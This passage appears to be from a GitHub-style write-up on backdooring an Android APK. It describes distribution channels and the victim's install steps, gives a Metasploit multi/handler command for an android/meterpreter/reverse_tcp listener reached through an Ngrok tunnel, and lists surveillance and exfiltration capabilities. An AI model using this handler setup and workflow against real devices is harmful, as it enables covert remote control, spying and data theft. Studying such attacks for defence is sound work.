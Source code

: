 ```
- Social media platforms

- Messaging applications

- Email attachments

- Compromised websites

- Installation Process



**When victims attempt to install the APK:**

Android displays a warning about installing from unknown sources

Users must manually enable "Install unknown apps" permission

The application requests the previously injected permissions

Upon approval, the malicious payload becomes active

### 7. Attack Infrastructure and Remote Access

#### Metasploit Handler Configuration

**The attack infrastructure utilizes Metasploit's multi/handler module to receive incoming connections:**

```msfconsole -q -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4444"```

#### Connection Establishment

**Once the victim launches the infected application:**

The application works normally while the injected payload executes in the background.

A reverse TCP connection is established through the Ngrok tunnel.

The attacker gains Meterpreter shell access to the device.

At this point, full control over the device is achieved through the Meterpreter session.

## Security Implications

#### Attack Capabilities

**Once the connection is established, attackers can:**

- Access device files and personal data

- Activate device cameras and microphones

- Monitor user activities and keystrokes

- Install additional malware

- Use the device as a pivot point for network attacks

- Exfiltrate sensitive information


## Conclusion
```